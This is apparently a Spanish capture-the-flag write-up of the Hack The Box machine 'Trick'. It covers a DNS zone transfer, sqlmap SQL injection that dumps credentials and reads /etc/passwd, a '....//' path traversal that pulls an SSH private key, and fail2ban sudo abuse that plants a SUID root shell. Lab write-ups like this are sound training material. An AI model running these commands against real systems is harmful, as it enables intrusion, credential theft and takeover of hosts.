# Scan
Empezamos realizando un escaneo con  nmap ``nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.8.156 -oN scan``

# Dns
```bash
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
```
Tras identificar el servicio ISC BIND ejecutándose en el puerto 53/tcp, el siguiente paso es verificar si el servidor está mal configurado. Para ello, intentaremos una transferencia de zona (AXFR). Esto nos permitiría, en caso de éxito, obtener el listado completo de subdominios y registros internos de la organización.
Primero necesitamos saber el nombre del dominio asociado a la ip:
```bash
dig @10.129.8.156 -x 10.129.8.156

; <<>> DiG 9.20.18-1-Debian <<>> @10.129.8.156 -x 10.129.8.156
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 52784
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 539c69ea12e488dfc024536269a00e879be3d1b768652e2c (good)
;; QUESTION SECTION:
;156.8.129.10.in-addr.arpa.	IN	PTR

;; ANSWER SECTION:
156.8.129.10.in-addr.arpa. 604800 IN	PTR	trick.htb.

;; AUTHORITY SECTION:
8.129.10.in-addr.arpa.	604800	IN	NS	trick.htb.

;; ADDITIONAL SECTION:
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1

;; Query time: 40 msec
;; SERVER: 10.129.8.156#53(10.129.8.156) (UDP)
;; WHEN: Thu Feb 26 10:12:39 CET 2026
;; MSG SIZE  rcvd: 163
```
Una vez sabemos que es trick.htb solicitamos la transferencia de zona:
```bash
dig axfr @10.129.8.156 trick.htb

; <<>> DiG 9.20.18-1-Debian <<>> axfr @10.129.8.156 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 211 msec
;; SERVER: 10.129.8.156#53(10.129.8.156) (TCP)
;; WHEN: Thu Feb 26 10:14:56 CET 2026
;; XFR size: 6 records (messages 1, bytes 231)
```
El servidor es vulnerable a AXFR. Hemos descubierto el subdominio  **preprod-payroll.trick.htb** vamos a añadirlo a nuestro ``/etc/hosts`` para poder auditarlo.
# Web - preprod-payroll.trick.htb
Aquí encontramos la siguiente pagina así que vamos a enumerarla

## Gobuster
Enumeramos directorios con gobuster pero no encontramos nada interesante

## SQLI
Dado que la autenticación se gestiona mediante una petición AJAX hacia el endpoint ajax.php, vamos a interceptar la comunicación para intentar una inyección SQL (SQLi) en los parámetros enviados al servidor.

Primero guardamos la petición a un archivo con burpsuite:

Y ahora realizamos la inyección con sqlmap: 
```bash
sqlmap -r pet.req --batch
```

Ahora vamos a realizar la extracción  de datos:
Empezamos con la extracción de los nombres de las bases de datos:
``sqlmap -r pet.req --batch --dbs``

Ahora vamos a ver las tablas de la base de datos payroll_db:
``sqlmap -r pet.req --batch -D payroll_db --tables``

Ahora vamos a extraer los datos de las tablas users:
``sqlmap -r pet.req --batch -D payroll_db -T users --dump``

Ahora que tenemos las siguientes credenciales ``Enemigosss:SuperGucciRainbowCake`` nos autenticamos en la web pero no vemos nada interesante por lo que nos intentamos autentica por ssh pero no son validas por lo que vamos a ver que permisos tiene el usuario de la base de datos.
``sqlmap -r pet.req --batch --privileges``

Como vemos que tenemos permisos de lectura y escritura vamos a intentar leer archivos de configuración.
Empezamos leyendo el ``/etc/passwd`` para ver que usuarios con shell tenemos en el sistema.
``sqlmap -r pet.req --batch --risk 3 --level 5 --technique=BEU --privilege --file-read="/etc/passwd"``



Vemos el usuario michael que tiene /bin/bash
Como también vimos en el escaneo que es un nginx vamos a consultar los sitios disponibles.
``sqlmap -r pet.req --batch --risk 3 --level 5 --technique=BEU --privilege --file-read="/etc/nginx/sites-enabled/default"``


## Path Traversal
Aqui descubrimos http://preprod-marketing.trick.htb lo añadimos a nuestro ``/etc/hosts`` y nos conectamos:

Viendo la url podemos deducir que puede haber un Directory Path Traversal.
Vamos a intentar leer el index con sqlmap para ver como incluye los archivos:
``sqlmap -r pet.req --batch --risk 3 --level 5 --technique=BEU --privilege --file-read="/var/www/market/index.php"``


El index contiene este código es decir carga cualquier archivo que metas menos la cadena "../" que la borra. Para saltarnos este filtro vamos a intentar usar "....//"
``http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//etc/passwd`` 

Vemos que funciona con lo que vamos a mirar si el usuario michael dispone de alguna clave ssh:
``http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//home/michael/.ssh/id_rsa``

La metemos en un archivo le damos permisos 600 ``chmod 600`` y nos conectamos al servidor con la id_rsa y el usuario michael.

Aquí encontramos la flag de user:

# Privesc
Realizamos un ``sudo -l`` y vemos que tenemos permiso para ejecutar como sudo y sin contraseña fail2ban

Al buscar encontramos este articulo en el que nos apoyamos para realizar la explotación.
https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-fail2ban-privilege-escalation


La shell es muy inestable y nos expulsa todo el tiempo así que vamos a crear un /bin/bash con suid para poder elevar privilegios desde el ssh.
En el archivo de configuración en vez poner las instrucciones de la revshell ponemos ``cp /bin/bash /home/michael/Desktop/shell && chmod u+s,a+x /home/michael/Desktop/shell`` para darle SUID y poder usarlo como michael.

```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf ~
nano ~/iptables-multiport.conf
			actionban = cp /bin/bash /home/michael/Desktop/shell && chmod u+s,a+x /home/michael/Desktop/shell
mv ~/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
sudo /etc/init.d/fail2ban restart
```


Por ultimo usamos hydra para hacer salta fail2ban y que ejecute nuestras instrucciones dándonos así una copia de /bin/bash con suid 

Por ultimo ``./shell -p`` y se nos abrirá bash como root.